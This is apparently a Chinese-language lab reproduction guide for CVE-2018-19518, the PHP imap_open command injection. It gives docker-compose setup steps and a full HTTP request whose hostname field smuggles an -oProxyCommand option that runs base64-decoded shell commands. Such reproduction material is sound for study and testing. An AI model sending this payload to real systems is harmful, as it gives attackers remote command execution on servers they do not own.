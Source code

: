 # PHP imap 远程命令执行漏洞（CVE-2018-19518）

php imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

参考链接：

- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518

## 漏洞环境

执行如下命令启动一个包含漏洞的PHP环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看web页面。Web功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码在[index.php](www/index.php)

## 漏洞复现

发送如下数据包即可成功执行命令`echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

执行`docker-compose exec web bash`进入容器，可见`/tmp/test0001`已成功创建：

![](1.png)
